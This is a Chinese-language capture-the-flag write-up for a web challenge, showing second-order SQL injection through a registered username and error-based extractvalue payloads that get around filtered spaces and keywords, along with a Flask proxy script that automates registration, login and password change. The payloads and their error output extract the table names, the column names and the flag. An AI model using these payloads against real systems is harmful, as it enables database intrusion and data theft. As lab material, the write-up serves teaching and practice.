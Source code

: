 ![[Pasted image 20230102083703.png|500]]

---
首页长这样

![[Pasted image 20230102083746.png]]

注册账户的时候卡了一下，看源码差点没晕掉，哪有`email`过滤`@`的QAQ

![[Pasted image 20230102084658.png|1000]]

使用用户名`admin"`注册，登录并在`changepwd.php`修改密码后，会出现错误提示

![[Pasted image 20230102094151.png|700]]

官方`wp`非常优雅地使用了代理转发来实现过程的自动化，赶紧学起来

```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = 'xxx.node4.buuoj.cn:81'
session = requests.Session()

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['username'])
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection', 'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)

def hack(username):
    register(username)
    login(username)
    return changepwd()

def register(username):
    paramsPost = {'password': '123', 'email': '11', 'username': username}
    session.post('http://{}/register.php'.format(end_host), data=paramsPost)

def login(username):
    paramsPost = {'password': '123', 'username': username}
    session.post('http://{}/login.php'.format(end_host), data=paramsPost)

def changepwd():
    paramsPost = {'oldpass': '', 'newpass': ''}
    response = session.post('http://{}/changepwd.php'.format(end_host), data=paramsPost)
    return response

app.run(port=80, debug=True)
```

![[Pasted image 20230102095135.png|1000]]

由于存在错误回显，尝试报错注入（空格、`right`、`limit`这些被`ban`了）
```sql
username=admin"^extractvalue(1,concat(0x5c,database()))#
```

```
XPATH syntax error: '\web_sqli'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))))#
```

```
XPATH syntax error: '\article,flag,users'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))))#
```

```
XPATH syntax error: '\flag'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(flag))from(flag))))#
```

```
XPATH syntax error: '\RCTF{Good job! But flag not her'
```

不在`flag`表里

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#
```

```
XPATH syntax error: '\name,pwd,email,real_flag_1s_her'
```

使用`regexp`获取被截断的项
```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))#
```

```
XPATH syntax error: '\real_flag_1s_here'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users))))#
```

```
XPATH syntax error: '\xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'
```

再次使用`regexp`匹配

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\flag{a8f839e3-d22e-4629-a4f9-3a'
```

使用`reverse`获取被截断的内容

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(reverse(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\}f44af64b92a3-9f4a-9264-e22d-3e'
```

倒转后拼接即可

#Web #SQL注入 #代理 #报错注入 #bypass 